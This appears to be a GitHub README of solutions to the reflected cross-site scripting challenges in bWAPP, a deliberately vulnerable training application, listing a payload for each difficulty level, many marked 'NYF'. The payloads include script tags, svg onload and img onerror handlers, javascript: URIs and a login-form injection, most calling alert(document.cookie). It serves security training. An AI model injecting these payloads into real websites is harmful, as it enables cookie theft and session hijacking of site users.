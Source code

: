 # XSS-BWAPP-SOLUTION
Welcome to the repository of comprehensive solutions for bWAPP's Cross-Site Scripting (XSS) challenges, meticulously curated and solved by BugBot19 (Nihar Rathod). This repository serves as a one-stop resource for anyone looking to understand and solve XSS vulnerabilities in the bWAPP (Buggy Web Application) framework.

# XSS - Reflected (GET)(LOW)
``` Payload- <script>alert(document.cookie)</script>(can be inserted in both parameter Firstname and lastname) ```

# XSS - Reflected (GET)(MEDIUM) 
``` Payload- <svg onload=alert(document.cookie)>(Can be inserted in both the parameter Firstname and Lastname) ```

# XSS - Reflected (GET)(High)
``` NYF ```

# XSS - Reflected (POST)(Low)
```Payload-<script>alert(document.cookie)</script>```

# XSS - Reflected (POST)(Medium)
```Payload-<svg onload=alert(document.cookie)>```

# XSS - Reflected (POST)(High)
```NYF```

# XSS - Reflected (JSON)(Low)
```Payload - <marquee onclick=alert(document.cookie)>Click on me</marquee>```

# XSS - Reflected (JSON)(Medium)
```Payload – NYF```

# XSS - Reflected (JSON)(High)
```Payload – NYF```

# XSS - Reflected (AJAX/JSON)(Low/Medium)
```Payload - <marquee onclick=alert(1)>Click!!!</marquee>```

# XSS - Reflected (AJAX/JSON)(High)
```Payload – NYF```

# XSS - Reflected (AJAX/XML)(Low/Medium)
```Payload - &lt;img src=&apos;#&apos; onerror=&apos;alert(document.cookie)&apos;&gt;```

# XSS - Reflected (AJAX/XML)(High)
```Payload - <a href="javascript:x='&percnt;27-alert('BugBot19 was here')-%27';">XSS</a>```

# XSS - Reflected (BackButton)(Low)
```Payload - ‘-alert(document.cookie)-’```

# XSS - Reflected (BackButton)(Medium)
```Payload – javascript:alert(document.cookie)```

# XSS - Reflected (BackButton)(High)
```Payload – Same as medium```
```Javascript:alert(document.cookie)```

# XSS - Reflected (CustomHeader)(Low)
```Payload- bWAPP:<script>alert(document.cookie)</script>```

# XSS - Reflected (CustomHeader)(Medium)
```Payload – bWAPP:<marquee onclick=alert(document.cookie)>click to win 1$</marquee>```

# XSS - Reflected (CustomHeader)(High)
```Paylaod - NYF```

# XSS - Reflected (EVAL)(Low)
```Payload – Date=alert(Document.cookie)```

# XSS - Reflected (EVAL)(Medium)
```Payload – Date=alert(document.cookie)```

# XSS - Reflected (EVAL)(High)
```Payload – NYF```

# XSS - Reflected (HREF)(Low)
```Payload - <marquee onclick=alert(document.cookie)>click to win 1$</marquee>```

# XSS - Reflected (HREF)(Medium)
```Payload - NYF```

# XSS - Reflected (HREF)(High)
```Payload – NYF```

# XSS - Reflected (Login Form)(Low)
```Payload – ‘ or 1=1; <script>alert(document.cookie)</script>```

# XSS - Reflected (PHP_Self)(Low)
```Payload – <a href="javascript:x='&percnt;27-alert('BugBot19 was here')-%27';">XSS</a>```

#XSS - Reflected (PHP_Self)(Medium)
```Payload – <marquee onclick=alert(document.cookie)>click to win 1$</marquee>```

#XSS - Reflected (PHP_Self)(High)
```Payload – ```





